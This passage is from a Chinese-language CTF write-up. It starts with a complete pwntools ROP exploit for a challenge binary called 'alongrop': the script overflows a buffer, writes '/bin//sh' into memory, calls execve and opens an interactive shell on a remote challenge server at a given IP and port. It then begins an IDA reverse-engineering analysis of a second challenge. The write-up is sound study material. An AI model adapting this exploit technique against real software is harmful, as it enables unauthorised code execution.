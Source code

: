 ### exp
```python
from pwn import *
from struct import pack

mode=1
url='43.139.51.42'
port=38369
if mode==0 :
	io=process("./alongrop")
else:
	io=remote(url,port)
#gadgets
pop_rax=0x00000000004211eb
pop_rbx=0x000000000040190d
pop_rsi_rbp=0x0000000000404ed2
pop_rdi_rbp=0x0000000000402148
# 
offset=0x40+0x8
payload=offset*b"a"
payload+=p64(0x0000000000404ed2)
payload+=p64(0x00000000004aa0c0)
payload+=p64(0x4141414141414141)
payload+=p64(0x00000000004211eb)
payload+=b'/bin//sh'
payload+=p64(0x00000000004205c5)
payload+=p64(0x0000000000404ed2)
payload+=p64(0x00000000004aa0c8)
payload+=p64(0x4141414141414141)
payload+=p64(0x000000000044cf30)
payload+=p64(0x00000000004205c5)
payload+=p64(0x0000000000402148)
payload+=p64(0x00000000004aa0c0)
payload+=p64(0x4141414141414141)
payload+=p64(0x0000000000404ed2) # pop rsi ; pop rbp ; ret
payload+=p64(0x00000000004aa0c8) # @ .data + 8
payload+=p64(0x4141414141414141) # padding
payload+=p64(0x000000000040190d) # pop rdx ; ret
payload+=p64(0x00000000004aa0c8) # @ .data + 8
payload+=p64(0x00000000004211eb)
payload+=p64(59)
payload+=p64(0x00000000004012d3)

#gdb.attach(io)
io.send(payload)
## 
io.interactive()
```
## secret 
### ida分析
**先进行了一下小小的逆向，把一些变量和函数名字改了一下**
#### main函数分析
![](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250524200824362.png)
1.第一眼看到输入赋值给v3,但v3是数组。v3[0]是我们的选项
2.关于后续功能的实现有猫腻，`funcs[v3[0]-1]()`.稍微有点经验就能看出来，这是在调用funcs[]中的函数，那么funcs中到底有什么呢？跟进去看看。
#### funcs数组分析
![image-20250524201339633](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250524201339633.png)
1.对ida熟悉一点，就知道这里存放的是函数的地址，分别就是menu中三个选项对应的函数。
2.所以假设前面的v3=1，那么就会执行funcs[0],也就是加密。